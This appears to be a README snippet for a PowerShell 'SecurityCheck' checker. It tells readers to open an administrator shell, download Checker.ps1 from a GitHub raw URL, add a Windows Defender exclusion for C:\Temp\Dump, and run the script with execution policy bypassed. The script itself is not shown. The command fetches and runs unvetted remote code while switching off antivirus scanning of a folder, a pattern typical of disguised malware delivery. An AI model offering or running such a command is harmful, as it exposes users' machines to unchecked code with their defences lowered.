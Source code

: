 ## Start (PowerShell Admin):
New-Item -Path "C:\Temp" -ItemType Directory -Force | Out-Null;
Set-Location "C:\Temp";
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/Brevzor/SecurityCheck/main/Checker.ps1" -OutFile "Checker.ps1";
Add-MpPreference -ExclusionPath 'C:\Temp\Dump' | Out-Null; powershell -ExecutionPolicy Bypass -File "C:\Temp\Checker.ps1";